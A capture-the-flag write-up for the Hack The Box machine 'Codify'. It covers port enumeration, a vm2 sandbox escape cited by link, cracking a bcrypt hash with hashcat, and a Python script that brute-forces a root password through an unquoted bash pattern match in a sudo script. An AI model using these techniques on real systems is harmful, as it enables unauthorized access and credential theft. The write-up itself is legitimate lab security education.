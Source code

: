 ```yaml
---
slug: /write-up/htb/easy/codify
pagination_next: null
pagination_prev: null
---
```


## Enumeration

```bash
curl 10.10.11.239                                                  
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://codify.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.239 Port 80</address>
</body></html>
```
Let's add the host to /etc/hosts

nmap reports several things opened:

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
```

The port 80 is a webserver that hosts a NodeJS editor to execute NodeJS in a sandboxed scenario.

Port 3000 looks the same.

The sandbox looks like it's using the vm2 library:
```
 The vm2 library is a widely used and trusted tool for sandboxing JavaScript. It adds an extra layer of security to prevent potentially harmful code from causing harm to your system. We take the security and reliability of our platform seriously, and we use vm2 to ensure a safe testing environment for your code.
```
The sandbox has the following limitations: http://codify.htb/limitations

The editor works by sending a POST request with base64 content:

```
curl 'http://codify.htb/run' -X POST -H 'Referer: http://codify.htb/editor' -H 'Content-Type: application/json' -H 'Origin: http://codify.htb' --data-raw '{"code":"YQ=="}'
```
This request belongs to the code `a`:
```bash
└─$ echo YQ== | base64 -d
a
```

## Foothold

Look at Google for vm2 escape, found this payload: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

Prepared the script a bit and got it, then send a reverse shell and we're in as `svc` user and then improve to a good shell.

Found the user `joshua` on /etc/passwd.

Checking the contents of the server, there's the `contact` folder which looks like an old nodejs app. It has a sqlite database which contains a users table with an entry for joshua. Let's try to crack the bcrypt hash stored there.

```bash
hashcat exfil/hash -m 3200 -a 0 /usr/share/wordlists/rockyou.txt
```

Found the password for user `joshua`, now connect with SSH, and we're in and get can get the user flag.


## Privilege escalation

The user `joshua` can execute this command as root:

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

In that script, there's one `if` statement that checks the user input password with the credentials stored in one file:

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
```

The problem with that is, this if does not perform string comparison, it performs pattern matching. Which means that it `USER_PASS` is `*`, the if will pass. 

The pattern matching will work with any character, for instance let's say the password is `password`, if the user provides the password `p*` it will pass, so we can slowly bruce-force each character thanks to pattern matching with the following script:

```python
import string
import subprocess
import time

all_characters = list(string.ascii_letters + string.digits)
password = ""
while True:
    for char in all_characters:
        command = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed" in output:
            password += char
            print(password)
            time.sleep(1)
```

And found the password for root, now we can run `su` and provide that password and we got root access.
